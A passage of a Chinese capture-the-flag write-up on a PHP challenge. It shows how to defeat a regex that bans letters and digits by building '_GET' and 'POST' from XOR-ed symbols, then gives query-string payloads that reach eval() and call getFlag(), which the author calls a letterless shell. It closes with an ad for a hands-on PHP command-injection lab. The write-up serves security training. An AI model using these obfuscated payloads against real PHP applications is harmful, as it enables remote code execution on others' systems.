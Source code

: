 绕过正则，传入的参数中不能含有大小写字母以及数字，使用异或的当时绕过正则即可

> <?phpvar\_dump('#'^'|'); var\_dump('.'^'~');var\_dump('/'^'`'); var_dump('|'^'/'); var_dump('{'^'/'); $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");//变量$\_值为字符串'POST'?>

![image-20220307182951085.png](https://www.hetianlab.com/headImg.action?news=d846a152-8d52-4d0b-97e7-00ffccb96f5c.png)

**no.flag**中提示了flag在getflag()方法中，那么自然需要构造payload去调用getflag()方法，需要参数长度小于40且绕过正则，那么可以设想一下

> function getflag(){
> 
> xxxxxxxxxxxxxxxx
> 
> }
> 
> @eval($code);

函数的调用就是类似于上面的过程，那么eval在执行的过程中$code并不能直接执行，参考上面的**题7**那么我传入的code的参数的形式为$\_GET\[\]且需要调用**getFlag()**方法，因为考虑到需要无字母，所以结合异或，那么payload就是下面的内容：

> ?code=${"`{{{"^"?<>/"}["`"^"?"\]();&\_=getFlag
> 
> 或者
> 
> ?code=$="\`{{{"^"?<>/";${$}[\_](https://www.hetianlab.com/$%7B$_%7D%5B__%5D);&\_=getFlag

这里

//\_GET 的变形无字母shell

> $\_="\`{{{"^"?<>/";

![image-20220307184319718.png](https://www.hetianlab.com/headImg.action?news=71990efb-efed-455c-a5fc-642a4d2ce690.png)

#### **小结**

大佬请绕路，如有错误欢迎师傅们指出。

**实验推荐：PHP命令注入攻击（合天网安实验室）[点击进入实操>>](https://www.hetianlab.com/expc.do?ce=c9246cb4-e33e-4528-84d5-b7636ea753c1)**

**更多网安工具及学习资料，扫码免费领：**

**![](https://img2022.cnblogs.com/blog/1781781/202203/1781781-20220321155437781-302031916.png)**

合天智汇：合天网络靶场、网安实战虚拟环境